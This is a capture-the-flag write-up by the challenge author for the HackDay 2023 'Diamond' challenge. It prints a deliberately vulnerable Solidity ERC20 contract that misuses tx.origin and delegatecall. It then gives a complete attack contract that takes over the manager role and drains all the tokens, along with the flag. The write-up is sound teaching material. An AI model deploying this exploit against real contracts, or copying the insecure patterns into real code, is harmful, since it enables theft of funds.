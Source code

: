 ```yaml
---
title: Diamond
description: Exploitation of tx.origin and delegatecall to steal ERC20 tokens
summary: Exploitation of tx.origin and delegatecall to steal ERC20 tokens
date: 2023-03-24
tags:
- Web3
ctf:
- HackDay 2023
draft: false
---
```


**Note**: this is the write up of a challenge I created, as a challenge creator for the HackDay 2023 qualifications.

> You've got the documents you need. \
> The last thing you need to do before you leave is to mess with the enemy blockchain to paralyze the outpost completely and be able to sneak away in the middle of the general panic. \
> Grab all their cash!

We're given the following contract:

```solidity
// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

// The following contract is vulnerable on purpose: DO NOT COPY AND USE IT ON MAINNET!
contract Diamond is ERC20("Diamond", "DMD") {
    address private manager;
    address private extension;
    mapping(address => bool) private redeemers;
    uint256 private bonusRedeemsLeft = 5;
    uint256 private constant diamond = 10 ** 18; // 18 is the default decimals number

    constructor() {
        manager = msg.sender;
        _mint(address(this), 1000 * diamond);
    }

    function recovery(address newManager) public {
        require(tx.origin == manager);
        manager = newManager;
    }

    function getFirstRedeemerBonus() public {
        require(bonusRedeemsLeft > 0);
        require(redeemers[msg.sender] == false);
        bonusRedeemsLeft -= 1;
        redeemers[msg.sender] = true;
        bool success = this.transfer(msg.sender, 5 * diamond);
        require(success);
    }

    function setExtension(address newExtension) public {
        require(msg.sender == manager);
        extension = newExtension;
    }

    function callExtension(bytes memory _data) public {
        (bool success, ) = extension.delegatecall(_data);
        require(success);
    }
}
```

## Overview of the contract

The contract handles an ERC20 token named Diamond or DMD. When created, it gives 1000 DMD to itself. It exposed a `getFirstRedeemerBonus` function to allow anyone to get 5 DMD to begin with, for a maximum of 5 different accounts. Because of this limitation, we can't use this function to empty the initial balance of the contract. \
The important part is the `setExtension`, `callExtension` and `recovery` functions. These functions can only be used by the manager, which is the address of the deployer of the contract, and allow to respectively add an address as an extension, call the extension and change the manager.

## Vulnerabilities

There are two different vulnerabilities in the contract that will allow us to reach our goal:

- the usage of `tx.origin` instead of `msg.sender`
- the delegatecall to an arbitrary address

### tx.origin

The usage of `tx.origin` for authorization is a [big mistake](https://swcregistry.io/docs/SWC-115). If we manage to make the current manager send a transaction to a contract we control, the contract can in turn call the `recovery` function and the `require(tx.origin == manager)` check will be a success.

If you did pay attention to the faucet page, something very important was written...

![](images/faucet.png)

> Useful note: this faucet is also the account used to deploy the contracts.

Now we have our attack path to become the manager! Just create a contract with a fallback function that calls `recovery` with the address we want as the new manager, and ask the faucet to give some money to our attack contract to trigger the execution of the fallback. That's it!

### delegatecall

A delegatecall isn't inherently vulnerable, but when the delegatecall is made to an untrusted address, the callee has [full control](https://swcregistry.io/docs/SWC-112) over the caller contract storage and balance.

Now that we're manager, we can use `setExtension` to update the extension address with our attack contract, and finally use `callExtension` to execute whatever function we want of our attack contract in the context of the Diamond one.

Because our contract will be called via a delegatecall, it will access the Diamond contract storage and functions instead of his own, just as if the code executed in our contract was executed in the Diamond contract.

To steal all the ERC20 tokens, all we have to do now is to call the ERC20 `transfer` function to move all the tokens from the Diamond contract's balance to any other one.

## The exploitation contract

If we put everything together in one single attack contract, we get the following.

```solidity
// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "../contracts/Diamond.sol";

contract DiamondAttack {
    Diamond diamond;

    constructor(address _diamond) {
        diamond = Diamond(_diamond);
    }

    fallback() external payable {
        diamond.recovery(address(this));
        diamond.setExtension(address(this));
        diamond.callExtension(abi.encodeWithSignature("steal()"));
    }

    // no need to define the code of these functions because the fact that they are called through a delegatecall will make them execute the functions of the Diamond contract instead
    function transfer(address to, uint256 amount) public returns (bool) {}
    function balanceOf(address account) public returns (uint256) {}

    function steal() public {
        // because this function will be called through a delegate call, the value of address(this) will be the address of the Diamond contract and not of our Attack contract
        bool success = this.transfer(<any address you want>, this.balanceOf(address(this)));
        require(success);
    }
}
```

We just need to create it with the address of the Diamond contract we want to attack, and ask the faucet to give it money to trigger the fallback. The contract will become the new manager, register itself as the extension, and call the `steal` function using the delegatecall so that the function is executed in the context of the Diamond contract and move all the tokens owned by the contract to another address.

Once done, the Diamond contract doesn't have anything left in its balance, as expected.

![](images/balance.png)

We've reached our goal! We can now get the flag by clicking the check button on the challenge page.

![](images/flag.png)

Flag: `HACKDAY{4ll_d14m0nds_succ3ssfully_st0l3n}`